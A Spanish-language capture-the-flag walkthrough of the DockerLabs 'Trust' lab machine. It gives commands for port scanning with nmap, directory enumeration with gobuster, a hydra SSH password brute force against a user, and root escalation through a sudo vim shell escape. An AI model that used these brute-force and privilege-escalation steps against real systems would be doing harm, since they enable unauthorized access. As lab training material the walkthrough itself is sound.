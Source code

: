 Máquina Trust (Nivel Muy Fácil) -> DockerLabs

----

1. Desplegamos la máquina
```
sudo bash auto_deploy.sh trust.tar
```
![[Pasted image 20240511192832.png]]

2. Escaneo de puertos
```
sudo nmap -p- --open -sC -sS -sV -min-rate-5000 -n -vvv -Pn 172.17.0.2
```
![[Pasted image 20240511193221.png]]
	- Port 22 -> ssh
	- Port 80 -> http

3. Visitamos la página web
![[Pasted image 20240511193514.png]]

4. Buscamos directorios ocultos
```
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
```
![[Pasted image 20240511194119.png]]

5. Buscamos por extensiones específicas
```
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x php,txt,html
```
![[Pasted image 20240511194254.png]]

6. Entramos a secret.php
![[Pasted image 20240511194334.png]]

7. Usamos hydra para la entrada fuerza bruta al ssh
```
hydra -l mario -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```
![[Pasted image 20240511195403.png]]

8. Iniciamos ssh con las credenciales encontradas
```
ssh mario@172.17.0.2
```

![[Pasted image 20240511195501.png]]
9. Buscamos alcanzar ser root
![[Pasted image 20240511195611.png]]

10. Explotación a través de vim
```
sudo vim -c ':!/bin/sh'
```

Este comando específico se utiliza para ejecutar un comando de shell desde el editor de texto con privilegios elevados.

![[Pasted image 20240511195811.png]]
